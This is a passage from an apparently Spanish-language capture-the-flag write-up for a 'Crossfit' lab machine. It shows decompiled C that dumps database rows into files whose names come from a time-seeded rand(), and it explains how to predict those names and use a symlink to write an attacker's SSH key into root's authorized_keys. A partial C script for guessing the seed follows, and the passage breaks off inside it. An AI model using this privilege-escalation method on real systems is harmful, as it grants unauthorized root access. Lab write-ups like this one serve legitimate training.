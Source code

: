 ```c++
              uVar4 = zip_strerror(path);
              fprintf(stderr,"%s\n",uVar4);
            }
            else {
              lVar3 = zip_file_add(path,local_f8,local_48);
              if (lVar3 < 0) {
                zip_source_free(local_48);
                uVar4 = zip_strerror(path);
                fprintf(stderr,"%s\n",uVar4);
              }
              else {
                uVar4 = zip_strerror(path);
                fprintf(stderr,"%s\n",uVar4);
              }
            }
          }
        }
      }
    }
    mysql_free_result(mysql_result);
    delete_rows(mysql_err_handler);
    mysql_close(mysql_err_handler);
    if (path != 0) {
      zip_close(path);
    }
    delete_files();
    return;
  }
  zip_error_init_with_code(local_68,local_4c);
  uVar4 = zip_error_strerror(local_68);
  fprintf(stderr,"%s\n",uVar4);
                    /* WARNING: Subroutine does not return */
  exit(-1);
}
```

En resumen, la funcion toma como valor el ID y un numero random ( Tomando como semilla el tiempo actual ), crea un archivo ( Aplicando un md5sum al nombre integro ) lo abre y mete los valores que hay en la tabla **Messages** en base de datos **Crossfit**. Podemos aprovechanos de que sabemos que el nombre del archivo se creara tomando los pasos mencionados anteriormente para insertar nuestra **id_rsa.pub** en el **authorized_keys** del usuario root aprovechadonos de un link simbolico. Esto lo podemos efecutar dado que como **isaac** tenemos permisos de escritura en */var/local*. Dado que el orden insertar los datos en el archivo son de 1, 3 2, primero tenemos que meter la primera cabecera de la **id_rsa.pub**, luego **el final**, y posteriormente todo el texto que hay en medio.

-------
#### Creating an exploit - Abusing Rand [Time travel]  
Podemos crear un script para aprovecharnos del **rand** viajando un minuto en el tiempo para adivinar como sera el siguiente nombre del archivo, el script seria algo como esto:
```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main(void){
	# Toma el tiempo actual
	time_t curr_time = time(NULL);
	# Elimina los minutos y agrega 61 segundos para adelantarnos un minuto al futuro
	int seed = curr_time - (curr_time % 60) + 61;
	# Genera un numero aleatorio tomando como semilla nuestra variable que viaja un minuto al futuro
	srand(seed);
	# printea el numero random
```